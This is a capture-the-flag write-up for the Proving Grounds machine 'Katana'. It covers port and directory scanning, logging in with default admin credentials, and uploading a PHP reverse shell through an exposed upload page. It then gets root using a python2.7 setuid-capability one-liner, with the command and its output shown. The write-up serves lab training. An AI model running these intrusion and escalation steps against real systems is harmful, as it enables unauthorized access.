# Katana
**Date:** June 3rd 2022

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>



<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 192.168.94.83`

```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
8088/tcp open  http    LiteSpeed httpd
```

An additional all ports scan added the following:

```bash
7080/tcp open  ssl/empowerid LiteSpeed
8715/tcp open  http          nginx 1.14.2
```

<br>

### Gobuster Scan

`gobuster dir -u http://192.168.94.83 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/index.html           (Status: 200) [Size: 655]
/ebook                (Status: 200) [Size: 3998]
```

Additional scan of **/ebook**:

```bash
/database             (Status: 200) [Size: 1181]
/index.php            (Status: 200) [Size: 3998]
/contact.php          (Status: 200) [Size: 4155]
/admin.php            (Status: 200) [Size: 3153]
/books.php            (Status: 200) [Size: 5164]
/info.php             (Status: 200) [Size: 94933]
/cart.php             (Status: 200) [Size: 2702]
/book.php             (Status: 200) [Size: 10]
/template             (Status: 200) [Size: 1166]
/purchase.php         (Status: 200) [Size: 2692]
/edit.php             (Status: 200) [Size: 16]
/checkout.php         (Status: 200) [Size: 2696]
/process.php          (Status: 200) [Size: 2016]
/models               (Status: 200) [Size: 2126]
/functions            (Status: 200) [Size: 1407]
/verify.php           (Status: 200) [Size: 69]
/bootstrap            (Status: 200) [Size: 1520] 
/controllers          (Status: 200) [Size: 982]
```

Another scan this time of **port 8088**:

```bash
/upload.html          (Status: 200) [Size: 6480]
/index.html           (Status: 200) [Size: 655]
/docs                 (Status: 200) [Size: 5472]
/protected            (Status: 401) [Size: 1242]
/blocked              (Status: 403) [Size: 1227]
/phpinfo.php          (Status: 200) [Size: 50735]
```


<br>

## Website Digging

Visiting the main page:


Checking out **/ebook**:



Opening up the **/database** link shows us a text file letting us know what the default admin credentials are as well as provides us with a file called **www_project.sql** which is a dump of the database.





Downloading the **www_project.sql** file allows us to open it up in a standard text editor. Not much useful in side other than the password hash for the admin user:

```sql
CREATE TABLE IF NOT EXISTS `admin` (
  `name` varchar(20) COLLATE latin1_general_ci NOT NULL,
  `pass` varchar(40) COLLATE latin1_general_ci NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci;

--
-- Dumping data for table `admin`
--

INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

Instead of trying to crack the hash I check the default password first that we found in the text file a minute ago:





Alright now that we're signed in let's see what we can do.

I try and add a book and use a reverse php shell as the image, but it doesn't work. I try some other things to make this work by changing the file extension and even the magic number on the file but can't get it to work.

Let's look at the port 8088 version of the website. It had an **upload.html** so that sounds promising:



I upload a reverse php shell:



<br>

## System Access

If you read the message it says it's moved to the other web server under a file name of **katana_p.php**. I try and load it on the port 80 website and it doesn't work. I then try on the **port 8715** website and it does work!



I upgrade my shell using python3 and start searching around the system.

<br>

## System Enumeration

`sudo -l` requires a password.

Searching for SUID and SGID with `find / -perm /6000 2>/dev/null` doesn't give us anything out of the ordinary.

<br>

## Root

I check to see if anything has **capabilities** that we can use and find we do:

`getcap -r / 2>/dev/null`

```bash
/usr/bin/python2.7 = cap_setuid+ep
```

Checking on [**GTFOBins**](https://gtfobins.github.io/gtfobins/python/#capabilities) shows us how to escalate our privileges to root:



`python -c 'import os; os.setuid(0); os.system("/bin/sh")'`

```bash
www-data@katana:~$ python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# hostname
katana
```

Now to find our flags.

`find / -name local.txt 2>/dev/null`

```bash
/var/www/local.txt
```

`wc -c /var/www/local.txt`

```bash
33 /var/www/local.txt
```

`wc -c /root/proof.txt`

```bash
33 /root/proof.txt
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual enumeration of 3 different websites before finding an **upload form** that allowed us to upload a **php reverse shell** and establish an initial foothold on the system
- Finding that **python2.7** had the **cap_setuid+ep** capability set allowing us to escalate our privileges to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
